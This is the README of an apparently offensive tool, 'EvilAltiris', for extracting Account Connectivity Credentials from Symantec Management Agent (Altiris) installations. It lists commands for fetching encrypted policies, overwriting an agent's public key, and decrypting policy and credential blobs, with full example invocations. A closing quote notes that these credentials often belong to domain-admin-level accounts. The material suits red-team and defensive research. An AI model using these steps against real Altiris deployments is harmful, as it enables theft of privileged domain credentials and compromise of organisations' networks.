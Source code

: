# EvilAltiris

Tool for extracting Account Connectivity Credentials (ACCs) from Symantec Management Agent (Altiris) in a default configuration. This tool supports two modes of operation, one from an elevated (SYSTEM) process and another from a low privileged (domain user) process. 

```
Usage: EvilAltiris <command> <args>

SMATool Commands (requires elevation and SMATool.exe on disk):

SmaGetPublicKey         -       Return the current public key value for the agent from the LDB
SmaGetTypeGuid          -       Fetch the type GUID from a machine joined to Altiris (requires elevation and SMATool.exe on disk)
SmaDecrypt              -       Decrypt encrypted policy data or ACC (requires elevation and SMATool.exe on disk)

Generic Commands (no elevation or SMATool.exe required):

GetClientPolicies       -       Request encrypted policies from Altiris server
GetMachineGuid          -       Read the current machineGuid value from the registry
GenerateKeys            -       Generate a new public / private key pair and policyKey blob
SetPublicKey            -       Overwrite the public key (policyKey) value for an existing machineGuid
DecryptPolicy           -       Decrypt encrypted policy data with private key XML
DecryptAcc              -       Decrypt an encrypted Account Connectivity Credential (ACC) blob
RestoreAgent            -       Force the agent to make a request to CreateResource.aspx to restore the existing agent public key

Arguments:

/smapath        -       Path to SMATool.exe on disk for any SMATool commands
/url            -       Notification Server target including the protocol e.g http://server.local
/key            -       XML string representing a private key for decryption or policyKey value
/data           -       Data to decrypt, can be either a file on disk containing binary data or a base64 string
/machine        -       Machine Guid for the agent
/type           -       Type Guid for the agent
/outfile        -       (Optional) outfile for the returned data

Example usage:

EvilAltiris.exe SmaGetPublicKey /smatool:C:\tools\smatool.exe
EvilAltiris.exe SmaGetTypeGuid /smatool:C:\tools\smatool.exe
EvilAltiris.exe SmaDecrypt /smatool:C:\tools\smatool.exe /data:AAA4xIqgq7WOIYvNqAXSaxh

EvilAltiris.exe GetClientPolicies /url:http://altiris.local /machine:{C07989E4-5473-4856-9752-8907FFCC506A} /type:{493435F7-3B17-4C4C-B07F-C23E7AB7781F}
EvilAltiris.exe GetMachineGuid
EvilAltiris.exe GenerateKeys
EvilAltiris.exe SetPublicKey /key:AAA4xIqgq7WOIYvNqAXSaxh /url:http://altiris.local /machine:{C07989E4-5473-4856-9752-8907FFCC506A}
EvilAltiris.exe DecryptPolicy /key:<RSAKeyValue><Modulus>3F7JlI</D></RSAKeyValue> /data:encrypted_policy.dat
EvilAltiris.exe DecryptAcc /data:AAA4xIqgq7WOIYvNqAXSaxh
EvilAltiris.exe RestoreAgent
```

# References
https://knowledge.broadcom.com/external/article?legacyId=HOWTO77271
```"By default the ACC is set to the Application Identity account (NS Installer account). Since the SMP installer account is usually an account with a high level of rights such as a domain admin, best practice is to change this to a low level user account."```

